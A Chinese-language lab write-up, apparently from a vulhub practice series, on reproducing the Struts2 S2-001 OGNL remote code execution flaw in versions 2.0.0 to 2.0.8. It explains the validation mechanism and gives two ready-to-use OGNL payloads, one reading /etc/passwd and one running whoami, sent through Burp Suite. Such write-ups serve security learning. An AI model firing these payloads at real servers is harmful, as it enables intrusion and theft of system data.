# Struts2_001_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行--->有回显

### 0x01漏洞介绍

​		我们来了解一下Struts2 中的validation机制。validation依靠validation和workflow两个拦截器。validation会根据配置的xml文件创建一个特殊字段错误列表。而workflow则会根据validation的错误对其进行检测，如果输入有值，将会把用户带回到原先提交表单的页面，并且将值返回。反之，在默认情况下，如果控制器没有得到任何的输入结果但是有validation验证错误。那么用户将会得到一个错误的信息提示。

那么这个机制到底和我们的漏洞有什么关系呢？在WebWork 2.1+ 和 Struts 2中存在一个altSyntax的特性，该特性允许用户提交OGNL请求，当用户提交恶意请求表单，故意触发一个validation错误，页面被workflow再次返回给用户的时候，默认情况下相当于返回%{return_value}。

###### 		该漏洞因用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用OGNL表达式%{value}进行解析，然后重新填充到对应的表单数据中。如注册或登录页面，提交失败后一般会默认返回之前提交的数据，由于后端使用%{value}对提交的数据执行了一次OGNL 表达式解析，所以可以直接构造 Payload进行命令执行。

##### 			影响版本

  		2.0.0 - 2.0.8

### 0x02漏洞复现

#### payload：

%{
\#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"**cat**","**/etc/passwd**"})).redirectErrorStream(true).start(),
\#b=#a.getInputStream(),
\#c=new java.io.InputStreamReader(#b),
\#d=new java.io.BufferedReader(#c),
\#e=new char[50000],
\#d.read(#e),
\#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
\#f.getWriter().println(new java.lang.String(#e)),
\#f.getWriter().flush(),#f.getWriter().close()
}

##### whoami:

%{+#a=(new+java.lang.ProcessBuilder(new+java.lang.String[]{"**whoami**"})).redirectErrorStream(true).start(),+#b=#a.getInputStream(),+#c=new+java.io.InputStreamReader(#b),+#d=new+java.io.BufferedReader(#c),+#e=new+char[50000],+#d.read(#e),+#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),+#f.getWriter().println(new+java.lang.String(#e)),+#f.getWriter().flush(),#f.getWriter().close()+}

(PS:实际抓包过程中也有这样或那样的坑，进行url编码，建议同学自己手工复现的时候多试几次)

​			登录界面

![S2_001_rce_1](H:\vulhub_Writeup\src\S2_001_rce_1.jpg)



​			Burpsuite抓包，发送第一个payload

!![S2_001_rce_2](H:\vulhub_Writeup\src\S2_001_rce_2.jpg)

​				

​		

### 0x03总结

​				这是笔者的第四篇文章，感觉写writeup的时候比正常打漏洞学到东西更充实。因为我写的每一个字都要思考别人能不能懂，思考的前提就在于，首先我要懂了。由于笔者是初学者，暂时没有做代码审计的能力。这也是我认真学习的第四个洞，估计以后代码审计还会过来补充。如有错误，还望各位师傅指正！

### 0x04参考资料

https://www.cnblogs.com/magic-zero/p/8214034.html

https://blog.csdn.net/SouthWind0/article/details/98971461